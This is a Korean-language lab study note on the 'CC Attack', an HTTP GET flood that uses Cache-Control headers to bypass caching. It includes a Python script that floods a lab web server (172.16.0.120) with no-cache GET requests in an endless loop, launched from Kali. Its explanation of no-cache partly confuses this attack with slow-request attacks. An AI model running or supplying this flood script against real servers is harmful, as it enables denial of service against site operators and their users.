


## CC Attack

- CC Attack (=GET Flooding with Cache-Control Attack)

  - HTTP Request의 Cache-Control 메시지 헤더를 조작하여 Cache 서비스가 가능한 자원도 웹 서버가 직접 처리하도록 유도 함

    > Cache-Control: no-store; must-revalidate

    > no-store → 클라이언트에게 요청 받은 데이터를 디스크, 메모리, 별도의 저장 장치(Cache Server)에 저장하는 것을 금지

    > must-revalidate → 웹 서버가 Caching Server에게 저장된 Cache에 대한 검증을 요구하는 메시지(서 버가 전달하는 값)

  - Caching 기능을 무력화 시켜서 웹 서버의 부하를 유발하는 공격

  - Caching Server를 운영하는 웹 사이트가 공격 대상이 될 수 있음

- Cache-Control: no-cache

  - 한꺼번에 여러 글자를 받아서 처리 하지 말고 사용자들이 보내는대로 처리

  - 공격자가 문자를 보내지 않으면 서버는 항상 문자열 대기 상태로 바뀜

    > 이러한 연결을 반복적으로 진행

  - 공격대상 웹서버로 Cache-Size 를 0으로 설정해서 보내면 대상 웹서버는 인코딩된 문자열을 동시에 처리할수 없고 한글자씩 처리

- 공격

  - python 코드를 이용하여 파일 생성

    ```
    ┌──(root㉿kali)-[~]
    └─# vim http_getflood.py 
    ```

    ```
    vi http_getflood.py
    
    import socket
    import time
     
    request_header = 'GET /INDEX.html HTTP/1.1\r\n'
    request_header += 'HOST: 172.16.0.120\r\n'
    request_header += 'Cache-Control: no-cache\r\n'
    request_header += '\r\n'
     
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect(('172.16.0.120',80))
     
    while True:
        sock.send(request_header.encode())
    ```

    

  - 실행 후 확인

    ```
    ┌──(root㉿kali)-[~]
    └─# python2 http_getflood.py http://172.16.0.120
    ```

    

    

    

